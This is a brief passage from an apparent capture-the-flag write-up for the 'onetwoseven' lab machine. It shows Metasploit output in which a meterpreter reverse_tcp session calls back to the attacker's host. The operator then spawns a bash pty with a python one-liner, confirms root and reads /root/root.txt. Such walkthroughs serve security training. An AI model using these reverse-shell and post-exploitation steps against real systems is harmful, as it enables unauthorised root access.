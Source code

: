 ```
msf5 exploit(multi/handler) > [!] Stage encoding is not supported for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3021284 bytes) to 10.10.10.133
[*] Meterpreter session 2 opened (10.10.14.23:5555 -> 10.10.10.133:48542) at 2019-04-21 22:45:41 -0400

msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > shell
Process 13981 created.
Channel 1 created.
python -c 'import pty;pty.spawn("/bin/bash")'
root@onetwoseven:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@onetwoseven:~# cat /root/root.txt
2d380a...
```